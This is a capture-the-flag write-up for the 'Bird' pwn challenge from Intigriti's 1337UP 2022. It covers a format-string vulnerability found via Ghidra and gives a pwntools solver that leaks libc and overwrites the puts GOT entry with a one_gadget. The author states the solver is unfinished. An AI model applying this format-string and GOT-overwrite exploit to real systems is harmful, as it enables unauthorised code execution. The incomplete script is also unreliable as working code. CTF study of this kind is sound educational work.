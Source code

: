 # Bird

```
score: 366
solved: xx/42
difficulty: easy
tags: pwn, fmt
```

## Problem
```
Fly high my little friend. Ohh you're caged? My bad. Sorry. The server is running on Ubuntu 18.04.

Connect at bird.ctf.intigriti.io 7777
Download link: bird
Download link: libc.so.6
Flag format: 1337UP{}
Created by Sebastian Stohr
```

Attached: [bird](https://downloads.ctf.intigriti.io/1337UPLIVECTF2022-894ff411-aff8-453c-87b1-20ea939a7b6c/bird/8255f049-bdde-4629-a2bc-d4ecd7021dc1/bird) and [libc.so.6](https://downloads.ctf.intigriti.io/1337UPLIVECTF2022-894ff411-aff8-453c-87b1-20ea939a7b6c/bird/8255f049-bdde-4629-a2bc-d4ecd7021dc1/libc.so.6)

## Got the flag
After download bin file and open with `ghidra` we have
```c
undefined8 main(void)

{
  banner();
  cage();
  restart();
  puts("\n[\x1b[32m+\x1b[0m] Exiting.");
  return 0;
}
```
the `restart` function will call `cage` function again. Let examine the `cage` function. \
After rename some variables, we have some interesting things:
```c
void cage(void)

{
  char cVar1;
  size_t LEN_BIRD_NAME;
  char *pcVar2;
  long in_FS_OFFSET;
  
  ...
  if ((int)LEN_BIRD_NAME < 65) {
  
  ...
  
  }
  else{
  
  ...
      for (count = 0; (int)count < 0x42; count = count + 1) {
      *(byte *)((long)&local_168 + (long)(int)count) =
           *(byte *)((long)&local_168 + (long)(int)count) ^ 0x77;
    }
    local_1ad = '\0';
    for (count = 0; (int)count < 0x42; count = count + 1) {
      if ((count & 1) == 0) {
        local_1ad = *(char *)((long)&local_168 + (long)(int)count);
      }
      else {
        cVar1 = hex_to_ascii((int)local_1ad,(int)*(char *)((long)&local_168 + (long)(int)count));
        local_198[local_1a8] = cVar1;
        local_1a8 = local_1a8 + 1;
      }
    }
  ...
  
    printf("\n[\x1b[32m+\x1b[0m] The bird is singing: ");
    printf(BIRD_NAME);
  }
  ...
}
```

The `printf(BIRD_NAME)` trigger `format-string` vulnerability. \
The strategy :
1. leak address of libc in stack by injecting `$?%llx` to show `? - 5` index of stack frame _**(because `x64` get `rdi, rsi, rdx, rcx, r8, r9` as arguments first)**_. 
2. Override `GOT` by putting address of `GOT_puts` to input and override it with `%n` option of `printf`

Moreover, the program have sh*t thing (something combine for and loop in above...) to check input before trigger vulnerbility but I don't care about it. I choice the way to try and try again to reach the case which pass it.

Our solver:
**Note that my solver has not completed, need fix to override byte by byte of GOT address at the end. You can search it in youtube of Liveoverflow**
```py
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF("./bird_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.DB:
        r = process([exe.path])
        gdb.attach(r,gdbscript='''
        init-gef\n
        b main\n
        b *0x00400b56\n
        ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    # leak heap address
    # 35 -> heap
    # 26 -> string input
    one_gadgets = [0x4f3d5,0x4f432,0x10a41c]
    gad = one_gadgets[1]

    payload = b"%35$llx "
    payload = payload.ljust(0x42,b"A")
    payload += b"\n"
    time.sleep(2)
    r.sendafter(b"bird:", payload)
    log.info("GET DATA...")
    r.recvuntil(b"singing: ")
    leak = int(r.recvuntil(b"Did")[:-3][0:12],16)
    base_libc = leak - 0x8b28d
    log.info(hex(base_libc))
    libc.address = base_libc
    
    # trigger fmtstring bug again
    r.sendafter(b"(y/n) ",b"n\n")
    payload = b""
    payload += p64(exe.got["puts"]) 
    payload += "%{}x".format(gad+base_libc - len(payload)).encode()
    payload += b"%26$n"
    r.sendafter(b"bird:", payload)


    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```